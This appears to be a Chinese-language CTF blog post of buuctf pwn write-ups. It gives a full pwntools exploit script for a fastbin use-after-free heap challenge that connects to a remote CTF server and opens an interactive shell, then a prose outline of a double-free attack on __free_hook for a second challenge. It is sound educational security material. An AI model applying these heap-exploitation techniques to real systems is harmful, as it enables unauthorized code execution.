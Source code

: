 ```yaml
---
title: buuctf-pwn write-ups (12)
date: 2023-03-06 20:49:16
categories:
- write-ups
- buuctf 系列
---
```

# buu093-wustctf2020_easyfast
Ubuntu 16.04下的简单堆题，使用fastbin直接UAF，分配到关键位置，注意前面有一个0x50表示chunk的大小，如果这个值不存在，那么这里是无法分配chunk的。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28773)
elf = ELF('./pwn')

sla = lambda x, y: io.sendlineafter(x, y)

def add(size):
	sla(b'choice>\n', b'1')
	sla(b'size>\n', str(size).encode())

def delete(index):
	sla(b'choice>\n', b'2')
	sla(b'index>\n', str(index).encode())

def writein(index, content):
	sla(b'choice>\n', b'3')
	sla(b'index>\n', str(index).encode())
	time.sleep(0.1)
	io.send(content)

add(0x40)
delete(0)
writein(0, p64(0x602080))
add(0x40)
add(0x40)
writein(2, p64(0))
sla(b'choice>\n', b'4')
io.interactive()
```

# buu094-ciscn_2019_es_1
这道题虽然说的是“hate libc 2.29”，但实际上最后发现用的还是glibc 2.27-3ubuntu1版本，也就是能够double free的版本。本题想要获取libc地址很简单，因为free之后地址还在，只要add一个大于0x400的chunk，释放后再show一下即可获取。然后double free一个小chunk，以将chunk分配到__free_hook。

